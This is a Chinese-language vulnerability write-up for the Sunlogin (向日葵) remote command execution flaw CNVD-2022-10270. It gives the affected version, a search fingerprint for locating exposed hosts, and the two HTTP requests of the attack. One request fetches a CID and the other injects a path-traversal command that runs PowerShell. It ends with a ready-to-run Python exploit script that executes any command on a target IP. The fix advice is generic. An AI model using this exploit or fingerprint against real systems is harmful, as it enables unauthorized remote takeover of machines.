

# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口


发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```



使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```


## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```

